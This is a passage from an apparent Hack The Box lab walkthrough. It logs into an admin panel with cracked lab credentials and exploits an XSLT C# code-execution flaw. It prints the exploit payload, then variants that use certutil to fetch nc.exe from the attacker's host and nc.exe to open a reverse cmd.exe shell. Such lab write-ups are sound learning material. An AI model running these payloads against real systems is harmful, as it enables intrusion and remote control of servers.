 <img src="/images/remote/cracked.png" />

So we have the password and all that is left is the username. Looking closely at the login form it says that the username is an email. And we do see some email format in the database. After some hit and trial I had a successful login with the credentials "admin@htb.local" and "baconandcheese".

So I looked around the admin pannel and didn't waste too much time there because I already had a lead to follow. Yes we are now going to use the exploit that we found. 

This is the payload part of that python based exploit.
```
# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
```

Hmm... xml is not really something I am comfortable with yet. But I can see the comment above the payload that says executing calc for a poc. Lets give the payload a reading anyway. I can understand that scripting language is c#, we see a string named cmd and the main thing we see is that proc.Startinfo.Filename="calc.exe". So that means this script will execute a calc command. Lets try replacing that with something like "curl". I don't see any output. Reading the script a little more we can see that there is no print statement for after we send the payload. So I add a little `print(r4.text)` at the end. And now we can see some output of different command we replace with with the calc.exe. After playing some more I see that we can pass the arguements to the string cmd. 

To gain a shell I start a python server and change the payload like this
```
{ string cmd = "-urlcache -split -f http://YourIP/nc.exe c:/windows/temp/nc.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "certutil"; proc.StartInfo.Arguments = cmd;\
```

And I see a GET request for the netcat executable on my server. Next I try to run that executable.

```
{ string cmd = "YourIP 1234 -e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "c:/windows/temp/nc.exe"; proc.StartInfo.Arguments = cmd;\
```
